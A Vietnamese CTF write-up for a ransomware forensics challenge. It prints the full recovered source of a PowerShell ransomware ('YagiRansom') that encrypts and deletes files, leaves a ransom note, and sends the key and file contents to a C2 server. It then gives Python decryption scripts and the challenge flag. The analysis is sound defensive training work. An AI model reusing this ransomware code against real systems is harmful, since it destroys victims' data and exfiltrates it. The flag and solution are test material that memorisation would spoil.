





# Challenge name: Urgent Tina
## Description:

Our client is a pessimist, she is worried that if she does not pay the ransom in the next 8 hours, the hacker will not give her any more chance to get her data back. We are trying to reassure her because we believe that our talented experts can find the cause and restore her data in less than 8 hours.

Author: `bquanman`

## Download File

[Urgent_Tina.zip](./dist/Urgent_Tina.zip)

## Flag: `ASCIS{N0th1n9_1$_m0r3_pr3c10u5_7h4n_1ndEp3ndenc3_&_fr33d0m}`

## Solution

Phân tích các module được load vào tiến tình update cho thấy nó có khởi chạy powershell



Để tìm tập lệnh powershell được chạy có một số cách như:

1. Sử dụng `WinDbg` hoặc `dotnet-dump` để tìm địa chỉ .Net assembly được load sau đó dump và extract powershell code từ file resource
2. Sử dụng `power_dump` để truy xuất các powershell script block và variable từ bộ nhớ
3. Cách dễ nhất là sử dụng `strings` và lướt tìm phần code đáng ngờ chịu trách nhiệm mã hóa

Dưới đây là ví dụ về việc sử dụng `power_dump` để dump các script block:



Người chơi chỉ cần ghép các block lại là có thể khôi phục toàn bộ script như dưới đây, ngay cả khi dùng `strings` thì người chơi vẫn có thể khôi phục 100% source hoặc ít nhất là tìm đc các hàm mã hóa quan trọng đủ để giải mã.

```powershell
# Design
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }

# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null

# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }

# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols

# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }

function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,

       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,

       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)

   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }

   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}

      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }

      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()

      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}

  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}

function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
 
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};

public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}

public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};

RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };

SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
 
"@
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}

function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 

Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()

$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  

$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)

$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 

$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don’t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 

$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null

$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()

$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}


function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }

function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}

function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }

function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }

function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }

function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }

function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}

function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}

function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}


function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}

# Main

if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
 
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1

   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})

   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1

   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}

   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}

   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }

sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```

#### Phân tích ransomware

Đầu tiên ransomware tạo 1 khóa ngẫu nhiên 24 bytes

```pwsh
$WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
```

Khóa này sau đó được sử dụng trong hàm Invoke-AESEncryption để tạo khóa mã hóa AES-CBC

```pwsh
Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
```

Sau khi mã hóa xong trên máy nạn nhân, ransomware tạo request POST tới server 



Request đầu tiên là gửi key được tạo ngẫu nhiên bên trên tới server, nhưng trước khi gửi nó được mã hóa AES với khóa được tạo từ thời gian hiện tại cộng tên user, kiểu trao đổi khóa này có thể gọi là encryptd key exchange.

Request tiếp theo nó gửi thông tin về các file bị mã hóa và lần lượt nội dung của từng file.



Chú ý là tất cả dữ liệu truyền đều đc encode bằng base64 custom bằng cách replace kí tự



Sau khi đã hiểu hết chức năng của ransomware, ta có thể thực hiện các bước để decrypt dữ liệu:

1. Extract các dữ liệu khỏi pcap
2. decrypt /data để lấy AES key giải mã

```python
import base64
from hashlib import sha256
from Crypto.Cipher import AES

encrypted_string = "gWJNVVxUDVFFGNDNjQqZDSKJmQS9WUphXRYd1LPNnd-NXeQVGdW5_bQJ2SWN2ZuVndtVzdhFjb3ZTZnhTdLFlZ"

reversed_string = encrypted_string[::-1]

reversed_string = reversed_string.replace("_", "E").replace("-", "C")

missing_padding = len(reversed_string) % 4
if missing_padding != 0:
    reversed_string += '=' * (4 - missing_padding)

decoded_data = base64.b64decode(reversed_string)
decoded_data = base64.b64decode(decoded_data)

key_string = "0009190924win-ho5dpb1fvndadministrator" #
key = sha256(key_string.encode()).digest()
iv = decoded_data[:16]

ciphertext = decoded_data[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_data = cipher.decrypt(ciphertext)

padding_length = decrypted_data[-1]
decrypted_data = decrypted_data[:-padding_length]

print(decrypted_data.decode('utf-8'))
```

3. Giải mã folder chứa các tệp được extract từ pcap và lưu với tên ban đầu
```python
import os
import base64
import hashlib
from Crypto.Cipher import AES

def process_file(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()
    reversed_data = data[::-1]
    replaced_data = reversed_data.replace(b'_', b'E').replace(b'-', b'C')   
    padding_needed = (4 - len(replaced_data) % 4) % 4
    replaced_data += b'=' * padding_needed
    base64_decoded = base64.b64decode(replaced_data)
    
    key = hashlib.sha256(b'YaMfem0zr4jdiZsDUxv1TH69').digest()
    iv = base64_decoded[:16]
    encrypted_data = base64_decoded[16:]
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = cipher.decrypt(encrypted_data)
    padding_length = decrypted_data[-1]
    decrypted_data = decrypted_data[:-padding_length]
    
    return decrypted_data

directory = 'encfile'
decrypted_directory = os.path.join(directory, 'decrypted_files')
os.makedirs(decrypted_directory, exist_ok=True)

for filename in os.listdir(directory):
    if filename == 'decrypted_files':
        continue
    file_path = os.path.join(directory, filename)
    decrypted_data = process_file(file_path)
    
    # Tạo tên tệp mới từ tên tệp bị mã hóa
    new_filename = filename[::-1].replace('_', 'E').replace('-', 'C')
    padding_needed = (4 - len(new_filename) % 4) % 4
    new_filename += '=' * padding_needed
    new_filename = base64.b64decode(new_filename).decode('utf-8')
    if new_filename.endswith('.enc'):
        new_filename = new_filename[:-4]
    
    new_file_path = os.path.join(decrypted_directory, new_filename)
    
    with open(new_file_path, 'wb') as file:
        file.write(decrypted_data)
    print(f"Giải mã thành công và lưu vào tệp: {new_filename}")
```

Cuối cùng người chơi chỉ cần ghép các kí tự từ các tệp từ flag_1.txt đến flag_59.txt. Việc tách flag ra thành nhiều tệp nhằm mục đích buộc người chơi phải tìm cách giải mã tự động.